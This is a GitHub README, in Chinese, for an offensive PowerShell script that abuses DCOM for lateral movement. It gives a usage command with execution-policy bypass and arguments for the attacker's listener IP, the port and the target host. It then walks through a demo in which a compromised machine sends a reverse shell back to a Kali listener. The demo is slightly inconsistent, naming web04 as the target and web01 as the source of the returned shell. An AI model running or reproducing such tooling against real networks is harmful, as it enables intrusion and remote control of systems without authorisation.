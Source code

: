# Dcom-LateralMovement
利用DCOM进行横向移动的脚本

使用方法：
powershell -ep bypass -c ".\dcom.ps1 lhost lport rhost"
例：
powershell -ep bypass -c ".\dcom.ps1 127.0.0.1 3333 192.168.8.8"

lhost：攻击机IP
lport：攻击机的监听端口
rhost：要横向移动到的目标靶机的IP

演示案例：
我们已经获得192.168.50.74 - client74的控制权限
想要横向移动到192.168.50.72 - web04主机

1. 在kali开启监听
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/0e7de4a5-9432-4bd6-b367-19907aa35850)
3. 在client74中运行脚本
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/a20e96ed-d847-42dc-8519-93740c11e556)
4. kali收到来自web01的shell
